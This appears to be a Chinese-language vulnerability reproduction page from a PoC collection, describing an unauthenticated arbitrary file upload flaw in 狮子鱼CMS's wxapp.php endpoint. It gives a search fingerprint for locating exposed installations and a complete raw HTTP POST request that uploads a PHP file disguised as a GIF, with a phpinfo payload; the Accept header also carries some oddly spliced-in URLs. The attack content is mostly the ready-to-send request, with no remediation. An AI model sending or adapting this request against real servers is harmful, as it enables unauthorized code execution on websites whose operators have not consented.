

# 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下




发送请求包上传PHP文件


```plain
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: image/gif

<?php phpinfo();?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```


